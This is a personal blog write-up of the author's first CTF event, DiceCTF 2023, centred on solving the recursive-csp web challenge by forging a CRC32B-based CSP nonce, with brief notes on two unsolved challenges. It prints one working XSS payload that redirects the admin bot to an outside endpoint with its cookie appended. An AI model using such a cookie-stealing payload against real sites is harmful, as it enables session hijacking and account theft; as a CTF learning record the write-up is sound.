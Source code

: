 ```yaml
---
title: "DiceCTF 2023 Writeup"
date: 2023-02-11T09:47:42-08:00
description: My DiceCTF challenge experiences. What I learned and what cool things I found out.
image: images/2023-02-11/solved-screenshot.png
tags:
  - ctf
showTableOfContents: true
---
```


DiceGang 🎲 just finished hosting DiceCTF 2023 (https://ctf.dicega.ng). It was first my first ever CTF event. I didn't really have any expectations going in and signed up on a whim. But guess what? I managed to solve one of the challenges and even gave a couple others a shot. I learned a ton from this event, and I'm definitely going to attend more CTF events in the future.

Here are my write ups.

### web/recursive-csp
* solved
* solves: 178
* description: the nonce isn't random, so how hard could this be? (the flag is in the admin bot's cookie)

I was greeted with a simple Hello World and an input for name. The form is simple, it submits a `GET` request with `name` as query parameter. The new page's title changed from "Hello world! to "Hello andy!".

{{< figure
    src="hello-world.png"
    alt="A screenshot of the recursive-csp challenge."
>}}

This was screaming XSS to me, so I just randomly inputting possible XSS attacks. But none of the `<script>` code was executing. Looking at the console error, it was blocked by the CSP header.
```
Content Security Policy: The page’s settings blocked the loading of a resource at inline (“script-src”).
```

The CSP header (`content-security-policy: default-src 'none'; script-src 'nonce-fe26ee76' 'unsafe-inline'; base-uri 'none';`) is only allowing script with particular nonce! This matches up with the hint. I started looking at how the nonce is generated by the server. At the first, I thought it was using the whole document or the date time as the input for hashing, and then only to realized that only the `name` parameter was used for input. It made so much sense to just use the input, this took way longer than I want to admit. 

Now I know what the server was using for the input, I needed to know what kind of algorithm it is using. The nonce was always 8 characters so I started looking at any algorithm that will output 8 characters. I spent a long time on searching this. I didn't know many hashing or encoding function except the basics: md5, sha256, etc. Until I finally found a site: https://md5calc.com. I used it to test md5 and other algorithms I know. What's cool about this site is that it outputs string encoded with other popular algorithms. This is how I found "CRC32B" hashing function.

> Future self here: it seems like CRC32B is a common hashing function provided by PHP. If only I could google what kind of hashing function php provides.

Now I know how the server generate the nonce, I just need to somehow force it to match with my XSS. I wrote a simple js script to output `<script nonce="{input}">alert(1)</script>` where I replaced the "{input}" with a 8 characters random string and hoped the CRC32B hashing will return the same thing. My script didn't work and I was stuck. It was not able even brute force one match for me. I ran the script for half an hour but no luck. 

I began searching online for a way to brute force it, and luckily stumbled upon this blog post by [Nayuki] https://www.nayuki.io/page/forcing-a-files-crc-to-any-value. The blog explains in details how the math works. To summarize it, the script adds 4 extra bytes to match the provided hash. This was really cool. I experimented with the script and found out some bytes that are injected are not URI friendly so I have to re-hash it again with a different value. 

At the end, I wrote a script to generate the hash. The flag was in admin bot's cookie so I had to update the script to send the cookie to an endpoint I control. Since CSP prevents any network requests for sending the cookie, I used `document.location` to change the URL in admin bot and hoped that it would redirect before it close the headless browser. To my surprise it worked. 

Here is my final payload. I injected the random 4 bytes at the end (`u091`). You can check the hash, it should match to `55ed1ba5`.
```html
<script nonce="55ed1ba5">document.location="https://adice.free.beeceptor.com?c="+document.cookie</script>  uO91
```

> Future self here: `https://beeceptor.com` was a site I used to get a temporary endpoint. However, reading everyone else's write up it seemed like `https://webhook.site` is what people usually use. 

This is the flag I got at the end, `dice{h0pe_that_d1dnt_take_too_l0ng}`. Honestly, I faced a lot of difficulties during the whole challenge: figuring out the hash algorithm, troubleshooting why the random bytes weren't working in the URL, and understanding how the admin bot operates. It took me roughly 15 hours to solve this challenge, but even if I hadn't solve it, it would still have been worth the effort. The amount of joy when I saw the flag was indescribable.

{{< figure
    src="solved-screenshot.png"
    alt="A solved screenshot for recursive-csp challenge in dashboard view."
>}}

Here is the author [strellic]'s [write up](https://brycec.me/posts/dicectf_2023_challenges). He wrote a simple rust program to force the output which is much faster than my javascript version! Additionally, he created three more awesome challenges that are worth checking out!


## Unsolved challenge 

I attempted other challenges but couldn't solve them. Here are notes to myself for studying and documenting what I attempted.

### web/scorescope
* solves: 55
* description: I'm really struggling in this class. Care to give me a hand?

This challenge had a file named `template.py`, we needed to implement all the functions and upload to the site for grading. (It felt like university homework.) The test cases included a `hidden` case so users couldn't guess it. I couldn't solve this. I don't use `python` regularly. But here is a good [write up by r3kapig](https://r3kapig.com/writeup/20230206-DiceCTF2023-EN/).

I learned a lot about exposing what the main module has and how to manipulate it.

### web/codebox
* solves: 30
* description: strellic makes csp challs, maybe i should try one sometime

This is another really cool challenge with CSP. It uses `report-uri` to leak information to an external server. It also uses a cool trick with how `URL().searchParams.get()` and `express`'s `req.query` parse multiple parameters with the same key. `URL` uses the first and `express` uses the last. This blew my mind 🤯. I didn't know even think this was possible, I assume everything follow a standard.

[r3kapig](https://r3kapig.com/writeup/20230206-DiceCTF2023-EN/)'s write up has a detail explanation on how the challenge worked and how they solved it.


## Conclusion

This was my first ever CTF event, I am really proud that I even solved 1 challenge. I learned a lot by participating the event. Also, thank you to the DiceGang staff in teh discord chat. I didn't really know how to use the admin bot so I was asking weird questions about it.

Here are things that I learned:
* Amazing people/groups to follow: [strellic], [ankursundara], [r3kapig], [Nayuki], and [dicegang]
* Content Security Policy header and how to use it.
* CRC32 hashing algorithm.
* [pwntool](https://github.com/Gallopsled/pwntools) to interact with server. Useful for scripting and parsing the output.


There are plenty more things that I won't list here. That's about it, thank you for reading. 

[strellic]: https://twitter.com/Strellic_
[ankursundara]: https://twitter.com/ankursundara
[r3kapig]: https://twitter.com/r3kapig
[Nayuki]: https://www.nayuki.io
[dicegang]: https://twitter.com/dicegangctf
